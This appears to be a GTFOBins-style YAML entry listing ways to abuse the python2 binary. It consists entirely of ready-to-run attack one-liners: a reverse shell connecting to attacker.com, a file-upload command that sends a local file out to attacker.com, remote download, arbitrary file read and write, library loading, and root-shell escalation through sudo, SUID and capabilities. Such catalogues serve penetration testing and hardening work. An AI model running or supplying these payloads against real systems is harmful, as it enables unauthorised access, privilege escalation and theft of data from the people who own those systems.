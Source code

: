 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
  capabilities-enabled:
    - code: ./python2 -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

